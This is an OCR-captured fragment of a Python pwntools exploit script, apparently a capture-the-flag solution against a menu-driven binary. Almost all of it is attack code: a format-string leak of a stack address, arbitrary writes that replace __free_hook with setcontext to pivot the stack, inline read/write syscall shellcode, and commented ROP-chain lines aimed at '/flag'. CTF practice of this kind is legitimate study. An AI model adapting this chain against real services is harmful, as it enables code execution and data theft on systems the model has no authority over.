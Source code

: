 ```python

        push 0\r\n
        pop rdi\n
        mov rsi,%s\n
        push 0x100\n
        pop rdx\n
        push 0x0\n
        pop rcx\n
        push 0\n
        pop rax\n
        syscall\n

        push 1\r\n
        pop rdi\n
        mov rsi,%s\n
        push 0x100\n
        pop rdx\n
        push 0x0\n
        pop rcx\n
        push 1\n
        pop rax\n
        syscall\n

    '''%(buf,buf)
    )

# ropchain += p64(prdi) + p64(feedback) + p64(prsi) + p64(0x100) + p64(prdx) + p64(stderr) + p64(fgets)
 # + p64(0) + p64(syscall)
# ropchain = ropchain.ljust(0x100,'\x90') + '/flag\0\0\0'

sla('> ','3')
sla('feedback: ','%15$p'.ljust(8,'a')+ropchain)
sla('Do you want to keep your feedback? (y/n)\n','n')
stack = eval(rc(14))
retaddr = stack + 8 -280
info_addr('retaddr',retaddr)
# debug('b *$rebase(0x0010DD)')
# debug('')

sla('> ','2')
sla('addr/value: ','%s %s'%(hex(feedback),hex(0)))
sla('> ','2')
sla('addr/value: ','%s %s'%(hex(free_hook),hex(setcontext)))
rsp = libcbase+0x3b5aa4
rcx = libcbase+0x3b5aac
sla('> ','2')
sla('addr/value: ','%s %s'%(hex(rsp),hex(buf)))

sla('> ','2')
sla('addr/value: ','%s %s'%(hex(rcx),hex(prdi)))

sla('> ','3')
sla('feedback: ',p64(0xdeadbeef)*10)
# debug('b free')
sla('Do you want to keep your feedback? (y/n)\n','n')
# sla('> ','2')
# sla('addr/value: ','%s %s'%(hex(retaddr),hex(read)))

print rc()
# info_addr('tag',addr)
# log.warning('--------------')

```